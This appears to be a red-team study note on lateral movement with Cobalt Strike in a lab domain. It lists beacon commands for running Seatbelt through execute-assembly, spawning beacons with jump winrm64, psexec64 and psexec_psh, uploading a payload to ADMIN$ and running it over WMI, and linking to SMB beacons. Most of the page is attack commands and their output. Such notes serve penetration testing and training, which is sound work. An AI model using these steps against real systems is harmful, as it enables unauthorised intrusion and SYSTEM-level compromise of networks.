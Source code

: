 #### execute-assembly

This is entirely custom. Custom methods can be integrated into the `jump` and `remote-exec` commands using Aggressor.

* ```
  beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web
  ```

### Windows Remote Management

The `winrm` and `winrm64` CS methods can be used for 32 and 64-bit targets as appropriate. The new beacon will run inside [wsmprovhost.exe](https://www.manageengine.com/log-management/correlation-rules/wsmprovhost-lolbas-execution.html)

*   ```
    beacon> jump winrm64 web.rotta.lab smb
    ```

    ```
    [+] established link to child beacon: 10.10.122.30
    ```

### PsExec

The PsExec commands upload a service binary to the target system, then creates and starts a Windos service to execute the binary. Beacons spawned this way run as SYSTEM.

Copies Binary to target:

* ```
  beacon> jump psexec64 web.rotta.lab smb
  [+] established link to child beacon: 10.10.122.30
  ```

Doesn't copy binary but runs Powershell

* ```
  beacon> jump psexec_psh web smb
  [+] established link to child beacon: 10.10.122.30
  ```

### Windows Management Instrumentation (WMI)

WMI is not part of `jump` command but part of `remote-exec`. This will be a child of [WmiPrvSE.exe](https://www.lifewire.com/what-is-the-wmiprvse-exe-process-4775428).

Upload binary to target and run.

*   <pre><code><strong>beacon> cd \\web.rotta.lan\ADMIN$
    </strong></code></pre>

    ```
    beacon> upload C:\Payloads\smb_x64.exe
    beacon> remote-exec wmi web.rotta.lab C:\Windows\smb_x64.exe
    ```

Connect to target:

* ```
  beacon> link web.rotta.lab <TSVCPIPE-pipe>
  ```
